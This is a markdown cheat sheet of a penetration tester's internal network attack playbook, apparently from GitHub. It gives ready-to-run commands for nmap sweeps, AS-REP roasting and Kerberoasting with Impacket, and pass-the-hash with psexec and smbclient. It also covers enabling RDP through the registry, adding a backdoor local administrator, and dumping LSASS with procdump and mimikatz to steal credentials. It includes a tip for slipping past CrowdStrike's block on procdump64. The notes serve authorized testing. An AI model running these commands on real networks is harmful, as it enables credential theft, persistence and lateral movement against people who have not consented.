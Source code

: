 # Internal Pentest Cheetsheet

## Recon
1) Use wireshark to listen for 30mins, once completed sift through it and try to identify hosts/interesting things.
2) Get/determine subnets in scope and add them to a file called ips.txt.
3) Run nmap ping scans to determine which hosts are up in the subnet, then full TCP/UDP scan. The below command does it all and saves at every step.
```
nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sn -iL ./ips.txt > results_all.txt && cat results_all.txt | grep up -B1 | cut -d " " -f5 | grep 10 >> cleaned_ips.txt && nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sS -sU -sC -sV -O -T4 -p- -v -n -Pn -PS -A --open -iL ./cleaned_ips.txt -oA  *CLIENT NAME*
```
4) Now you have all the up hosts, their ports etc, feed the XML into pentest-machine, it'll speed up the enumeration of large subnets.
5) Eliminate low hanging fruit
6) If user account is provided, use bloodhound or AD-Recon.ps1 to enumerate all of AD.
  Feed AD-Recon's Computers.csv into [fruityad.py](https://github.com/smit1759/cheetsheets/blob/master/fruityad.py) - it'll show you what you can pwn easily.
7) Profit

## Exploitation - Machines
1) Stop, think, am I going to break shit?
2) RECORD EVERY STEP
3) Verify your exploit will work
4) Clean up after yourself

## Exploitation - Users
1) Run [ADRecon.ps1](https://github.com/sense-of-security/ADRecon) (by Sense of Security ;))
2) Get the output of the Users.xlsx and feed all usernames into a text file
3) Run Impackets GetNPUsers Script:
`#> GetNPUsers.py <domain>/ -usersfile TargetUsers.txt -format hashcat -outputfile hashes.asreproast -dc-ip <DC>`
4) If the user is ASRepRoasted then crack the hash
5) Get the password and feed it into the GetUserSPN.py:
`#> GetUserSPNs.py <DOMAIN>/<User>:<Pass> -outputfile hashes.kerberoast -dc-ip <DC>`
6) Crack hash if you've successfully Kerberoasted a user


## Post-Exploitation
1) Open RDP (Makes other exploits easier to run) - Use the Remmina client on Kali
2) Procdump lsass.exe (or import kiwi/mimikatz on MSF) for creds\
3) Investigate host
4) Check if its a constrained delegation host
5) Pray you've dumped DA's creds

## Useful shit

#### Use eternalblue_psexec - the others hardly work

### Dont always have to crack the hash, maybe pass it??
```
psexec.py -hashes LM:NTLM DOMAIN/User@IP
smbclient.py -hashes LM:NTLM DOMAIN/User@IP
```
MSF Allows you to use the NTLM hash in the password field in exploit/windows/smb_psexec
Don't forget that native upload (Target 3) works if powershell is disabled on the box

### Enable RDP from CMD
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Create localadmin
```
net user *username* *password* /add
net localgroup administrators *username* /add
net localgroup "Remote Desktop Users" *username* /add
```

### Procdump LSASS for creds
This creates a memory dump using the procdump sysinternals tool.
(Crowdstrike doesnt block procdump.exe but blocks procdump64.exe no idea why)
#### 32bit
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
#### 64bit
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`
#### Mimikatz Extaction
```
sekurlsa::minidump lsass.dmp
sekurlsa::passwords full
```
